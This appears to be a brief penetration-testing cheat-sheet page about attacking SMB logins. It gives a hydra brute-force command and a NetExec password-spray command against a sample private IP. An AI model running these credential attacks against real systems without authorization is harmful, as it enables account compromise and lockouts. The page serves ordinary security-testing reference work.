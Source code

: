 ## Attacks

{% tabs %}
{% tab title="BFA" %}
```bash
hydra -L user.list -P password.list smb://10.10.10.10
```
{% endtab %}

{% tab title="Spray*" %}
```bash
nxc smb 10.10.10.10 -u users.lst -p Password123! --continue-on-success
```
{% endtab %}

{% tab title="Untitled" %}

{% endtab %}
{% endtabs %}

{% hint style="info" %}
\*Add `--local-auth` if non-domain joined.
{% endhint %}
